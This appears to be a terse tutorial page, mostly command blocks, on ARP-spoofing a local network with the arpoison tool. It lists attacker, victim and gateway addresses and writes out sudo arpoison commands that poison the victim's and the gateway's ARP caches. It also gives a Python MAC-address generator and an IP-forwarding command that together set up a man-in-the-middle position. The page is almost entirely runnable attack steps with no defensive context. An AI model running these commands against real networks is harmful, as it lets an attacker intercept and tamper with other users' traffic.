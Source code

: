 ### 安裝 {#installing}

```
shell> brew install arpoison
```

```
arpoison
       -i     Device e.g. eth0
       -d     Destination IP address in dotted decimal notation.
       -s     Source IP address in dotted decimal notation
       -t     Target MAC address e.g. 00:f3:b2:23:17:f5
       -r     Source MAC address
       -a     Send ARP REQUEST
       -n     Number of packets to send
       -w     Time in seconds between packets

Usage: -i <device> -d <dest IP> -s <src IP> -t <target MAC> -r <src MAC> [-a] [-w time between packets] [-n number to send]
```

`attacker` `192.168.11.3` `a0:99:9b:08:cb:87`
`victim` `192.168.11.2` `fc:aa:14:b4:4c:18`
`gateway` `192.168.11.1` `78:44:76:f8:ec:38`
`macgen` `00:16:3e:20:b0:11`

```
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t fc:aa:14:b4:4c:18 -r 00:16:3e:20:b0:11
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t ff:ff:ff:ff:ff:ff -r 00:16:3e:20:b0:11
```

---

```
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t ff:ff:ff:ff:ff:ff -r fc:aa:14:b4:4c:18
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t 78:44:76:f8:ec:38 -r fc:aa:14:b4:4c:18
```


```
shell> ./macgen.py 
00:16:3e:20:b0:11
```
	
```py
#!/usr/bin/python
# macgen.py script to generate a MAC address for Red Hat Virtualization guests
#
import random
#
def randomMAC():
	mac = [ 0x00, 0x16, 0x3e,
		random.randint(0x00, 0x7f),
		random.randint(0x00, 0xff),
		random.randint(0x00, 0xff) ]
	return ':'.join(map(lambda x: "%02x" % x, mac))
#
print randomMAC()
```

`pfctl`

```
shell> sysctl -w net.inet.ip.forwarding=1
```




- https://www.centos.org/docs/5/html/5.2/Virtualization/sect-Virtualization-Tips_and_tricks-Generating_a_new_unique_MAC_address.html


<!--
http://www.linuxhub.org/?p=1644
https://jingyan.baidu.com/article/84b4f565c4f9e760f7da3251.html
-->
